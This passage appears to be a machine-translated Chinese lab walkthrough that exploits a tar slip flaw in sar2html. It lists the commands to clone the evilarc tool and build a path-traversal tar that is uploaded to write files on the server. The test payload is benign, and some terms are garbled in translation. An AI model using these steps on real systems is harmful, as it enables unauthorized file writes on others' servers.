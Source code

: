 **图:卷曲**

*让我们看看这个端口中正在运行什么。在浏览器中打开它。*

> ****sar2html*** *是系统统计(sar 数据)的绘图工具。**

*![](img/3bbf25a73cf192de59980adfab4d96ff.png)*

*图:Sar2html*

*正如我在博客开头所说的，这个工具有一个漏洞。有一个 **tar2slip** 漏洞。*

> ****sar 2 html****易受 tar slip 攻击，从而导致通过归档提取进行任意文件写入。**

*让我们试着利用它。*

***1。首先下载 POC 生成器工具***

```
*git clone https://github.com/ptoomey3/evilarc.git && cd evilarc*
```

***2。运行以下代码***

```
*echo exploitation test > test.css*
```

***3。现在生成恶意的 tar 文件***

```
*python2 evilarc.py  -o linux -f pay.tar test.css -p 'static/css' -d 3*
```

***4。点击“新建主机”然后上传 tar 文件“pay . tar”***

***5。检查文件。***

*![](img/91a8505dd498e11efd8529cf15c3c227.png)*
